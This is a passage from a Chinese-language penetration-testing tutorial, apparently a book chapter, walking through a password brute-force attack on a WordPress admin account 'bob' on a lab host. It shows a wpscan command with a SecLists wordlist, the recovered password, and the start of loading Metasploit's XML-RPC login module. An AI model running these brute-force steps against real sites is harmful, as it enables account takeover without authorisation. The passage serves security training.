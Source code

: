 用户枚举返回了一个值：`bob`。ID 为 `1`，我们可以安全地假设这是管理员账户。Bob 将是我们暴力破解攻击的重点，由于我们之前使用过 `10-million-password-list-` 字典成功，我们将再次尝试使用它。

`wpscan` 工具通过 `--passwords` 和 `--usernames` 参数提供了一个登录暴力破解选项。为了不逊色于其他工具，Metasploit 也提供了一个通过 XML-RPC 接口对 WordPress 登录进行暴力破解的工具。对于更大规模的攻击，使用这个模块可能更为合适，因为 Metasploit 的数据库在整理发现并快速启动后续攻击方面可能会派上用场。

就我们的目的而言，`wpscan` 的暴力破解工具就足够了，我们可以让它开始：

```
**# wpscan --url http://vulndocker.internal:8000/ --passwords ~/tools/SecLists/Passwords/Common-Credentials/10-million-password-list-top-10000.txt --usernames bob**

**[...]**
**[+] Starting the password brute forcer**
 **Brute Forcing 'bob' Time: 00:01:23 <====              > (2916 / 10001) 29.15%  ETA: 00:03:22**

 **[+] [SUCCESS] Login : bob Password : Welcome1**

 **+----+-------+------+----------+**
 **| Id | Login | Name | Password |**
 **+----+-------+------+----------+**
 **|    | bob   |      | Welcome1 |**
 **+----+-------+------+----------+**

```

使用相同的参数对 Metasploit 的 `auxiliary/scanner/http/wordpress_xmlrpc_login` 模块进行测试，我们得到相同的结果。

我们可以通过在 Linux 终端中使用 `msfconsole` 命令启动 Metasploit 控制台：

```
**root@kali:~# msfconsole -q**
**msf >**

```

正如我们在前几章中所做的那样，我们可以使用 `use` 命令加载 `wordpress_xmlrpc_login` 模块：

```
**msf > use auxiliary/scanner/http/wordpress_xmlrpc_login**

```

类似于前面章节中的 MySQL 登录扫描模块，这个特定的模块可以通过指定以下选项进行配置：

![Foothold](img/B09238_13_06.jpg)
